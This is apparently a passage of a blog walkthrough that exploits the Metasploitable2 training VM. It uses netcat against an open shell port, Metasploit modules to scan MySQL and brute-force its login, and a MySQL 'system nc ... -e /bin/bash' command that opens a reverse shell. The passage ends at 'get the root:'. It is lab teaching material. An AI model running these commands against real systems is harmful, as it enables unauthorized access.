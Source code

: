 {% img  /images/blog/misc/metasploitable2/Selection_027.png   [title manually exploit [alt text]] %}



### Remote shell (port 1524)

nothing cool,

`nc 192.168.79.179 1524`

{% img  /images/blog/misc/metasploitable2/Selection_032.png   [title manually exploit [alt text]] %}




### Mysql exploit

####Discover MySQL version:

```
msf > use auxiliary/scanner/mysql/mysql_version
msf auxiliary(mysql_version) > set rhosts 192.168.79.179
msf auxiliary(mysql_version) > run
```

{% img  /images/blog/misc/metasploitable2/Selection_010.png   [title manually exploit [alt text]] %}


####Brute Force MySQL Login

```
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(mysql_login) > set rhosts 192.168.79.179
msf auxiliary(mysql_login) > set USER_FILE /usr/share/wordlists/rockyou.txt
msf auxiliary(mysql_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
msf auxiliary(mysql_login) > run
```

get root and guest without setting password 


{% img  /images/blog/misc/metasploitable2/Selection_011.png   [title manually exploit [alt text]] %}


Once get the credential, login to MySQL

`mysql -h 192.168.79.179 -u root -p`

In Kali setup nc:

`nc -nlvp 1234`

In MySQL, execute system command:

`mysql> system nc 192.168.79.173 1234 -e /bin/bash`


get the root:

